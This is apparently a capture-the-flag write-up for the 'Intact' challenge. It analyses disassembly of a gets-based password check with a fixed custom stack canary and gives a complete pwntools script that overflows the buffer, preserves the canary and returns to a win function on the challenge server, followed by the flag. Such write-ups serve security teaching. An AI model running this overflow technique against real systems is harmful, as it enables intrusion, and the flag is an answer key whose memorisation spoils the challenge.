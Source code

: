# Intact

## Challenge

We're given an application which asks for a password and reads input with `gets`.

The program was compiled with the canary disabled, but there is a custom canary included in the source code.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

Let's look at the disassembly for the `verifyPassword` function:

```asm
┌ 164: sym.verifyPassword ();
│           ; var char *s2 @ rbp-0x1b
│           ; var char *var_13h @ rbp-0x13
│           ; var int64_t var_fh @ rbp-0xf
│           ; var int64_t var_dh @ rbp-0xd
│           ; var char *s1 @ rbp-0xc
│           ; var int64_t var_4h @ rbp-0x4
│           0x004012e6      55             push rbp
│           0x004012e7      4889e5         mov rbp, rsp
│           0x004012ea      4883ec20       sub rsp, 0x20
│           0x004012ee      c745ed63616e.  mov dword [var_13h], 0x616e6163 ; 'cana'
│           0x004012f5      66c745f17279   mov word [var_fh], 0x7972   ; 'ry'
│           0x004012fb      c645f300       mov byte [var_dh], 0
│           0x004012ff      488d45f4       lea rax, [s1]
│           0x00401303      be08000000     mov esi, 8                  ; int64_t arg2
│           0x00401308      4889c7         mov rdi, rax                ; int64_t arg1
│           0x0040130b      e8f8feffff     call sym.rand_string
│           0x00401310      488d050e0d00.  lea rax, str.Please_enter_your_password:_n ; 0x402025 ; "Please enter your password:\n"
│           0x00401317      4889c7         mov rdi, rax                ; const char *s
│           0x0040131a      e821fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0040131f      488d45e5       lea rax, [s2]
│           0x00401323      4889c7         mov rdi, rax                ; char *s
│           0x00401326      b800000000     mov eax, 0
│           0x0040132b      e830fdffff     call sym.imp.gets           ; char *gets(char *s)
│           0x00401330      488d4de5       lea rcx, [s2]
│           0x00401334      488d45f4       lea rax, [s1]
│           0x00401338      ba08000000     mov edx, 8                  ; size_t n
│           0x0040133d      4889ce         mov rsi, rcx                ; const char *s2
│           0x00401340      4889c7         mov rdi, rax                ; const char *s1
│           0x00401343      e8e8fcffff     call sym.imp.strncmp        ; int strncmp(const char *s1, const char *s2, size_t n)
│           0x00401348      8945fc         mov dword [var_4h], eax
│           0x0040134b      488d45ed       lea rax, [var_13h]
│           0x0040134f      ba07000000     mov edx, 7                  ; size_t n
│           0x00401354      488d0d0d2d00.  lea rcx, obj.stored_canary  ; 0x404068 ; "canary"
│           0x0040135b      4889ce         mov rsi, rcx                ; const char *s2
│           0x0040135e      4889c7         mov rdi, rax                ; const char *s1
│           0x00401361      e8cafcffff     call sym.imp.strncmp        ; int strncmp(const char *s1, const char *s2, size_t n)
│           0x00401366      85c0           test eax, eax
│       ┌─< 0x00401368      7419           je 0x401383
│       │   0x0040136a      488d05d70c00.  lea rax, str.Stack_smashing_detected._Aborting._n ; 0x402048 ; "Stack smashing detected. Aborting.\n"
│       │   0x00401371      4889c7         mov rdi, rax                ; const char *s
│       │   0x00401374      e8c7fcffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x00401379      bf01000000     mov edi, 1
│       │   0x0040137e      e80dfdffff     call sym.imp.exit
│       │   ; CODE XREF from sym.verifyPassword @ 0x401368
│       └─> 0x00401383      b801000000     mov eax, 1
│           0x00401388      c9             leave
└           0x00401389      c3             ret
```

At the start, the function stores the string `"canary"` at `var_13h`.
At the end of the function, it compares the contents of the string at `var_13h` to the string `"canary"`.
If this test fails, the program exits without returning.

This functions as a custom stack canary, similar to the one built into GCC.
However, the canary is not randomized.
This makes it trivial to avoid overwriting the canary by including it in our payload.

Adding the canary into our payload such that the canary doesn't change before and after the buffer overflow, we can pass this check.
We can then return to the `win` function as normal.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host srv3.momandpopsflags.ca --port 2007 intact
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('intact')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'srv3.momandpopsflags.ca'
port = int(args.PORT or 2007)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = flat({
    0x1b-0x13: b"canary\0",
    0x1b+0x8: exe.sym['win'],
    })
io.sendlineafter(b"Please enter your password:\n", payload)

io.interactive()
```

## Flag

```
magpie{&&_th3_c4n@r1_dld_n()7_s!ng}
```
